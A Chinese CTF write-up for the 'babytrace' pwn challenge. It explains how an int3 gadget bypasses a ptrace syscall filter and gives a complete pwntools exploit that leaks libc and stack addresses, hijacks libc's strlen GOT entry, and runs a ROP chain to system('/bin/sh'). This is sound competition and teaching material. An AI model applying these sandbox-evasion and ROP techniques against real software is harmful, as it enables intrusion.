 # babytrace

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |
|libc  |2.35-0ubuntu3.5|

## 解题思路

### 绕过ptrace的监控

程序使用ptrace来监控syscall，按照`ptrace(PTRACE_SYSCALL, ...)`在文档中所言，
会在系统调用进入和退出时分别唤醒tracer。如果没有任何异常的话，我们就只能按照要求，
只能执行`read, write, newfstat, exit, exit_group`这么几个系统调用。

> [!NOTE]
> 我一开始不知道ptrace syscall在进入和退出时都会通知tracer，以为有一半的系统调用没有限制，
> 导致我一直在尝试让我想做的事落在没有限制的哪一半，还是对ptrace的机制不够熟悉啊。

我们需要的，就是需要通过什么办法，唤醒tracer，使调试关系错乱，进入syscall的时候没检查，
退出syscall的时候有检查，这样就拦不住任何东西了。接下来就是一个关键的指令出场了：`int3`。
这个指令能够触发系统中断表中的第3项，唤醒tracer，使tracee陷入调试状态，
就好像ptrace syscall执行了一样，从而骗过父进程，以为进入系统调用，实则并没有。

那么怎么找这样的gadget呢？ropper和ROPgadget都找不到，于是我写了这么一段代码，
手动寻找`int3` gadget。

```python
#!/bin/python
from pwn import *
libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.35-0ubuntu3.5_amd64/libc.so.6')

int3s = list(libc.search(b'\xcc', executable=True))
for idx, addr in enumerate(int3s):
    disas = libc.disasm(addr, 30)
    if 'ret' not in disas:
        continue
    retoff = disas.find('ret')
    badoff = disas.find('(bad)')
    callof = disas.find('call')
    if badoff != -1 and badoff < retoff or callof != -1 and callof < retoff:
        continue
    print(f"{idx}th gadget")
    print(disas)
    pause()
```

经过仔细的挑选后，第726个gadget是最好的选择：它只是触发了`int3`而几乎没有任何副影响。

![int3](assets/int3_gadget.png)

### 构造rop链

找到gadget后，就是考虑如何拿到flag了。题目给了两次任意读的机会和一次任意写的机会，
看了[官方wp](https://mp.weixin.qq.com/s/gXYLwdup6HYd_rETUSb9aA)后，觉得官方解法还是很妙的。

只有两次机会读，泄露stack和libc是最合适的，因此最好能直接控制执行流到libc上。
否则就要爆破栈或者PIE了。2.35的libc的GOT表还是可以写的，因此可以借助任意写，
劫持`libc.got['strlen']`，通过将栈抬高然后返回，就可以执行我们输入的ROP链，大概是这样：

![stack](assets/stack.png)

这样就可以实现任意写后`puts -> +stack -> rop`。最后构造rop链加上int3，拿shell。

> [!TIP]
> 这道题不能使用`execve`，因为执行的shell启动后仍然处于被调试状态，
> 各种syscall会在返回时被赋值为`-1`，从而被认定为失败，导致开不成shell。
> 反倒是`system`可以，因为会先fork一次，而题目没开`PTRACE_O_TRACEFORK`，
> 因而fork后执行syscall不受限制。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './babytraced'

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t, 'tb setter')
    else:
        t = remote('', 9999)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.35-0ubuntu3.5_amd64/libc.so.6')

    def setval(buf: bytes, idx: int, val: int):
        t.sendlineafter(b'choose', b'1')
        t.sendafter(b'recv', buf)
        t.sendlineafter(b'which', str(idx).encode())
        t.sendlineafter(b'set', str(val).encode())

    def getval(idx: int) -> int:
        t.sendlineafter(b'choose', b'2')
        t.sendlineafter(b'which', str(idx).encode())
        t.recvuntil(b'=')
        return int(t.recvline(), 10)

    libc_base = getval(-2) - libc.symbols['_IO_2_1_stderr_']
    success(GOLD_TEXT(f"Leak libc_base: {libc_base:#x}"))
    libc.address = libc_base
    stack_base = getval(-4) - 0x20
    success(GOLD_TEXT(f'Leak stack_base: {stack_base:#x}'))

    gadgets = ROP(libc)
    int3 = libc_base + 0xf6d43      # int3; nop; ret;
    jmp2buf = libc_base + 0x114b5c  # add rsp, 0x68; ret;
    chain = flat(int3,
                 gadgets.rdi.address, next(libc.search(b'/bin/sh')),
                 gadgets.ret.address, libc.symbols['system'],
                 gadgets.rdi.address, 0, libc.symbols['_exit'])
    offset = (libc.got['strlen'] - stack_base) // 8
    setval(flat({ 0: chain, 0x100: b'flag\0' }, filler=b'\0'), offset, jmp2buf)

    t.clean()
    t.interactive()
    t.close()
```

## 参考

1. [第八届西湖论剑·中国杭州网络安全技能大赛初赛官方Write Up（下）](https://mp.weixin.qq.com/s/gXYLwdup6HYd_rETUSb9aA)
